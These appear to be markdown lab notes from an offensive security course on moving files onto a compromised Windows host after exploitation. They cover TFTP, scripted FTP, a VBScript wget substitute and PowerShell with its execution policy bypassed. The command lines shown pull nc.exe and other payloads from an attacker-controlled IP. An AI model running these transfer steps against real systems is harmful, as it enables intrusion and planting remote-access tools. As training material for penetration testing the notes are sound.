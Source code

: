 #File Transfers (Post Exploitation)

## TFTP
Often restricted in corperate networks, contained in windows up to xp/2003 by default has since has been opt in
+ Quick to setup, non-interactive

Linux Box (attacker)
```
root@kali:# mkdir /tftp
root@kali:# atftpd --daemon --port 69 /tftp
root@kali:# cp /usr/share/windows-binaries/nc.exe /tftp/
```

Windows Box (defender)
```
C:\Program Files\SLmail\System>tftp -i 10.11.0.138 GET nc.exe
   tftp -i 10.11.0.138 GET nc.exe
   Transfer successful: 59392 bytes in 18 second(s), 3299 bytes/s
```

## FTP
Often included in windows, has interactive elements so might need to prewrite a script

Linux Box (attacker) - install pure-ftpd, then run `setup-ftp.sh`
```
root@kali:~/Desktop/lessons/slmail# apt-get install pure-ftpd
root@kali:~/Desktop/lessons/filetransfers# ./setup-ftp.sh 
```

Windows Box (defender) - Paste `ftp.txt` into the shell
```
C:\Program Files\SLmail\System>echo offsec>> ftp.txt
C:\Program Files\SLmail\System>echo lab>> ftp.txt
C:\Program Files\SLmail\System>echo bin>> ftp.txt
C:\Program Files\SLmail\System>echo GET test.txt>> ftp.txt
C:\Program Files\SLmail\System>echo bye>> ftp.txt
C:\Program Files\SLmail\System>ftp -s:ftp.txt
```

## VBScript
Often installed we can mimick wget using this script

Linux (attacker)
```
cp exploit.txt /var/www/exploit.txt
service apache2 start
```

Windows (Defender) - Paste `wget-vbs.txt` into the shell then use
```
cscript wget.vbs http://10.11.0.138/test.txt testvbs.txt
```

## Powershell
More modern windows computers, allows bypass of execution policies

Linux (attacker)
```
cp exploit.txt /var/www/exploit.txt
service apache2 start
```

Windows (Defender) - Paste `wget-ps.txt` into the shell then use
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
